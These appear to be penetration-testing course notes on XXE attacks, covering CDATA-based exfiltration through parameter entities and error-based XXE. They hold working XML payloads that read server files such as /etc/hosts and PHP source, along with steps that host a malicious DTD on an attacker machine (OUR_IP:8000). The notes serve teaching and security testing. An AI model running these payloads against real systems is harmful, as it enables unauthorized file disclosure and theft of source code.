


## Advanced Exfiltration with CDATA
* We can utilize another method to extract any kind of data (including binary data) for any web application backend
* To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`)
* Define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`
* Then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

* However, `this will not work, since XML prevents joining internal and external entities`
* We can utilize `XML Parameter Entities`
* A special type of entity that starts with a `%` character and can only be used within the DTD
* If we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```

* So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application

```sh
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Reference our external entity (`xxe.dtd`) and then print the `&joined;`

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

## Error Based XXE
* Web application might not write any output
	* Cannot control any of the XML input entities to write its content
	* `Blind` to XML output
* If application displays runtime errors (e.g. PHP errors)
* If the web application neither writes XML output nor displays any errors, we would face a completely blind situation
* First try to send malformed XML data, see if errors occur
	* Delete closing tag
	* Change one of the tags (e.g. `<roo>` instead of `<root>`)
	* Reference a non-existing entity



* Error revealed a web server directory, which we can use to read the source code of other files
* Host a DTD file that contains the following payload

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

* We define the `file` parameter entity and then join it with an entity that does not exist
	* In this case, `%nonExistingEntity;` does not exist
	* Web application throws an error saying that this entity does not exist
	* Also prints our joined `%file;` as part of the error
* There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file
* Call our external DTD script, and then reference the `error` entity

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```



* We can also read the source code of files by changing the DTD to  `"file:///var/www/html/submitDetails.php"`
*  `This method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it